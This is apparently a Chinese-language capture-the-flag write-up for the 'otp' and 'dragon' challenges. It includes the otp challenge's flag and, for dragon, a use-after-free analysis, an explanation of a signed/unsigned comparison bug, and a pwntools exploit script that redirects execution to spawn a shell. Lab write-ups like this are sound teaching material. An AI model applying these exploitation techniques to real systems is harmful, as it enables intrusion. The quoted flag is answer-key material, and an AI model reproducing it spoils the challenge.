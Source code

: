 ```
import subprocess
subprocess.Popen(['/home/otp/otp', ''], stderr=subprocess.STDOUT)	
```

flag: *Darn... I always forget to check the return value of fclose() :(*

## dragon

```
XXXAttack:
	free(dragon_info);
if win:
	p = malloc(0x10);
	scanf("%16s", p);
	(*dragon_info)(dragon_info);
else:
	return
```

由于free(dragon)之后，如果赢得话，将立马malloc(0x10)，输入名字，这时候dragon_info将可控，然后执行*dragon_info(dragon_info)。

由以上伪代码，我们可以看出，只要能够击败龙，就可以在输入name时，输入call system的地址，即可getshell。

记录怪物血量的变量是`BYTE`类型的，也就是`unsigned char`类型。与它比较的0默认情况是`signed int`。

```
while ( *((_BYTE *)dragon_info + 8) > 0 ); // 这里的0 是signed int类型
```

在c语言中不同类型的变量做比较会进行隐式类型转换，短长度类型会向较长长度类型转换，长度一致符号不同则向无符号转换，整数会向float转换，float会向double转换。
那么这里的比较，`BYTE`就会向`signed int`转换。如果此时怪物血量为`128`,转换为二进制就是`10000000`,那么进行符号扩展时就变成了`0xffffff80`,而这个数其符号位为`1`所以是个负数，那么函数就会跳出循环并返回`1`，也就是取得胜利。

综上，payload如下:

```
from pwn import *

p = process("./dragon")

for i in range(4):
    p.sendline("1")
for i in range(4):
    p.sendline("3\n3\n2")

p.recvuntil("You As:\n")

target_address = 0x08048DBF
p.sendline(p32(target_address))

p.interactive()
```













